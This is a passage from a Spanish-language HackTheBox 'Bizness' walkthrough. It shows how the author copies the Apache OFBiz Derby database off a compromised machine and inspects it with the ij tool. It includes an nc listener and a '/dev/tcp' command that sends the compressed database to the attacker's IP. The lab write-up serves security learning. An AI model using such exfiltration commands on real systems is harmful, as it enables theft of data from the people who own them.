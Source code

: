 Para trabajar mejor con la información, lo que realizaremos es comprimir todo el directorio de `derby` para disponerlo de manera local en nuestro equipo.

```bash
ofbiz@bizness:/opt/ofbiz/runtime/data$ tar -czf derby.tar.gz derby
ofbiz@bizness:/opt/ofbiz/runtime/data$ ls -l 
total 3332
drwxr-xr-x 5 ofbiz ofbiz-operator    4096 Dec 21  2023 derby
-rw-r--r-- 1 ofbiz ofbiz-operator    1231 Oct 13  2023 derby.properties
-rw-r--r-- 1 ofbiz ofbiz-operator 3398865 Feb 15 19:54 derby.tar.gz
-rw-r--r-- 1 ofbiz ofbiz-operator      88 Oct 13  2023 README
```

Nos pondremos en escucha con `nc` para recibir el comprimido.

```bash
❯ nc -nlvp 443 > derby.tar.gz
listening on [any] 443 ...
```

Enviaremos la información a través de `/dev/tcp`.

```bash
ofbiz@bizness:/opt/ofbiz/runtime/data$ cat derby.tar.gz > /dev/tcp/10.10.16.3/443
```

Una vez recibido el archivo en nuestro equipo local, lo descomprimiremos para analizarlo posteriormente.

```bash
❯ gunzip derby.tar.gz
❯ tar -xvf derby.tar
```

### Connecting to a Derby database (ij)

Nos encontramos con los archivos que utiliza `Apache OFBiz` para la base de datos `Derby`.  A través del siguiente blog, se nos menciona como lograr conectarnos.

Mediante la herramienta `ij`, logramos conectarnos a la base de datos que disponemos localmente en el directorio mencionado. Visualizamos los `SCHEMAS` y el que parece interesarnos más es el de `OFBIZ`.

{% embed url="https://db.apache.org/derby/docs/10.14/tools/ttoolsij97656.html" %}

```bash
❯ ls
 log   seg0   tmp   db.lck   dbex.lck   README_DO_NOT_TOUCH_FILES.txt   service.properties
❯ pwd
/home/kali/Desktop/HackTheBox/Linux/Bizness/content/Ofbiz/ofbiz
❯ ij
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
Versión de ij 10.14
ij> CONNECT 'jdbc:derby:/home/kali/Desktop/HackTheBox/Linux/Bizness/content/Ofbiz/ofbiz';
ij> show SCHEMAS;
TABLE_SCHEM                   
------------------------------
APP                           
NULLID                        
OFBIZ                         
SQLJ                          
SYS                           
SYSCAT                        
SYSCS_DIAG                    
SYSCS_UTIL                    
SYSFUN                        
SYSIBM                        
SYSPROC                       
SYSSTAT                       

```
